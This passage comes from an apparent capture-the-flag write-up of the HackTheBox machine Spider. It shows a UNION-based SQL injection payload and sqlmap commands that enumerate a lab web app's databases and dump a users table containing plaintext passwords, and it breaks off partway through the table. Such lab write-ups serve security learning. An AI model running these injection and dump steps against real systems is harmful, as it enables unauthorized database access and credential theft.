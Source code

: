         Type: UNION query
        Title: Generic UNION query (NULL) - 1 column
        Payload: uuid=-9189' UNION ALL SELECT CONCAT(0x7178767a71,0x6d774d6a6e51764a4a746445434f76726a724f6f4f4567756b7252505379416772516c696d634955,0x717a6a7071)-- -
    ---
    [11:50:28] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.12                                                     ...[snip]...
    

It shows the same injection point I found with `UNION`, as well as some blind
alternatives. From here, standard `sqlmap` enumeration. List DBs:

    
    
    0xdf@parrot[~/hackthebox/spider-10.10.10.243]$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid --dbs
    ...[snip]...
    available databases [5]:
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] shop
    [*] sys
    ...[snip]...
    

List the tables in `shop`:

    
    
    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop --tables
    ...[snip]...
    Database: shop
    [4 tables]
    +----------+
    | items    |
    | messages |
    | support  |
    | users    |
    +----------+
    ...[snip]...
    

Dump the `users` table:

    
    
    oxdf@parrot$ sqlmap -u 'http://127.0.0.1:5000/?uuid=1e05713d-9b4e-4d2c-938b-c5673866ee3e' -p uuid -D shop -T users --dump
    ...[snip]...
    Database: shop
    Table: users
    [7 entries]
    +----+--------------------------------------+------------+-----------------+
    | id | uuid                                 | name       | password        |
    +----+--------------------------------------+------------+-----------------+
    | 1  | 129f60ea-30cf-4065-afb9-6be45ad38b73 | chiv       | ch1VW4sHERE7331 |
    | 2  | 2185aa99-1f1d-48f6-a835-2410496118d3 | 0xdf       | 0xdf            |
    | 3  | fa3975ea-f2d2-4253-9427-4fab9646781f | 0xdf       | 0xdf            |
    | 4  | 394160c8-b105-4e73-9c2e-cec37580e8a3 | 0xdf'      | 0xdf            |
    | 5  | 63b03184-ec08-411a-bc74-d266797c315d | {{config}} | 0xdf            |